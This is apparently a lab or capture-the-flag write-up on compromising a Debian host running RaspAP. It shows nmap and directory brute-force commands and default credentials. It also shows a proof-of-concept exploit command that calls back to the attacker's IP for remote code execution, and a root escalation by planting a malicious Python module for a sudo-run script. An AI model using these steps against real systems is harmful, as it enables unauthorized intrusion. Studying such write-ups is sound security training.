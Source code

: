 ### Enumeration
```
IP=192.168.170.97
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,23,25,53,422,8091,42042 -A $IP
```
### Ports 
- 22
	- OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 23
	- Linux telnetd
	- Linux Telnetd 0.17
- 25
	- Postfix smtpd
- 53
	- tcpwrapped
- 422
	- OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 8091
	- lighttpd 1.4.53
- 42042
	- OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
### Foothold
- 23
	- expoloit-db 48170
		- Linux Telnetd 0.17
		- RCE fedora
		- leak unsuccessful
- 8091
	- Default landing page
		- ![[Pasted image 20240715133724.png]]
		- Capture with burp. See RaspAP as platform
		- Googled default credentials
			- admin:secret
			- Allows us to login
	- Versions
		- RaspAP v2.5
			- Googled RaspAP v2.5
				- exlpoit-db 50224
				- no work
				- https://github.com/gerbsec/CVE-2020-24572-POC
					- python3 exploit.py 192.168.170.97 8091 192.168.45.195 22 secret 1  -  gets rce
	- Directory Brute force
		- dirsearch -u http://$IP
			- /composer.json
				- billz/raspap-webgui
				- php 7
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
			- /app
				- 403 forbidden
			- /config
				- 403 forbidden
			- /ajx
			- /templates
			- /dist
			- /installers
			- /locale
		- Found directories
### PE
#### Linux
- www-data
	- id
		- uid=33(www-data) gid=33(www-data) groups=33(www-data)
	- sudo -l
		- (ALL) NOPASSWD: /sbin/ifup
		- (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
			- only read permissions
			- nothing interesting
			- sudo /usr/bin/python /home/walter/wifi_reset.py
				- Unable to load wificontroller module.
				- maybe inject malicious module
				- ![[Pasted image 20240715145554.png]]
				- Move it to same directory as python file
				- sudo /usr/bin/python /home/walter/wifi_reset.py
				- We get RCE as root
		- (ALL) NOPASSWD: /bin/systemctl start hostapd.service
		- (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
		- (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
		- (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
		- (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
	- uname -a
		- Linux walla 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
	- Users with console
		- drwxr-xr-x  2 www-data www-data 4096 Sep 17  2020 walter
		- terry
		- paige
		- janis
	- linpeas
		- write privileges over /lib/systemd/system/raspapd.service
### Credentials
### Lessons Learned